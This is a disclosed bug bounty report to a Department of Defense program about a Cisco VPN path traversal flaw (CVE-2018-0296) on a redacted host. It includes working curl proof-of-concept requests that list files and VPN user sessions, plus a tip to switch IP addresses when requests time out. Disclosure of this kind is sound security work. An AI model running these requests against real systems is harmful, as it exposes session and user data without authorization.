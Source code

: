 # [CVE-2018-0296] Cisco VPN path traversal on the https://███ (████████████████)

## Report Details
- **Report ID**: 695427
- **URL**: https://hackerone.com/reports/695427
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-16T08:32:13.332Z
- **Disclosed**: 2024-07-19T14:27:14.029Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
I discovered previously unidentified instance https://█████ (█████████████) in ██████ network, vulnerable to the CVE-2018-0296 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0296)


##POC
```
curl -i -k "https://███/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
```
█████

We can disclose user sessions by quering /sessions:
```
curl -i -k "https://███████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```


##Suggested fix
Updating to the latest version should fix the issue. Fixed version should give 404 "File not found" error.
Example of patched version:
```
curl -i -k "https://█████.████.█████████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

##Notes
In case you experience request timeout when reproducing, try to change your IP/VPN.

## Impact

Path traversal, which can allow the unauthenticated attacker disclose sensitive information such as VPN sessions, files, usernames. Under some conditions it's possible to cacuse DOS attacks

## Attachments
No attachments
